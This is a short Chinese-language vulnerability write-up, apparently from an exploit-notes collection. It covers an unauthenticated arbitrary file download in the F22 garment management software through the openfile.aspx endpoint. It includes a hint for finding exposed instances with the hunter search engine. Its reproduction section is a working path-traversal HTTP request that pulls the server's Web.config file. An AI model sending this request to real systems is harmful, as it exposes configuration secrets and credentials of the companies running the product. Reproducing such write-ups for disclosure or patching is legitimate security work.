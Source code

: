 # 广州锦铭泰软件科技有限公司F22服装管理软件系统openfile.aspx前台任意文件下载

# 一、漏洞简介
广州锦铭泰软件科技有限公司，是一家专业为品牌服饰鞋包企业提供信息化解决方案的高科技企业，该公司开发的F22服装管理软件系统存在接口未授权访问，通过未授权的口/oa/isprit/module/openfile.aspx存在任意文件下载漏洞。攻击者最终可利用该漏洞获取敏感信息。

# 二、影响版本
+ F22服装管理软件系统

# 三、资产测绘
+ hunter
+ 特征

![1701097856863-836b585b-5ad5-4a30-9d15-de84e9bb5567.png](./img/F6ehaHwmiT2nLKU9/1701097856863-836b585b-5ad5-4a30-9d15-de84e9bb5567-711181.png)

# 四、漏洞复现
```plain
GET /oa/isprit/module/openfile.aspx?Url=..\..\..\Web.config HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1701097898821-70329903-417e-40d4-b245-8c141fdfe265.png](./img/F6ehaHwmiT2nLKU9/1701097898821-70329903-417e-40d4-b245-8c141fdfe265-689811.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ghu980augeuitr7e>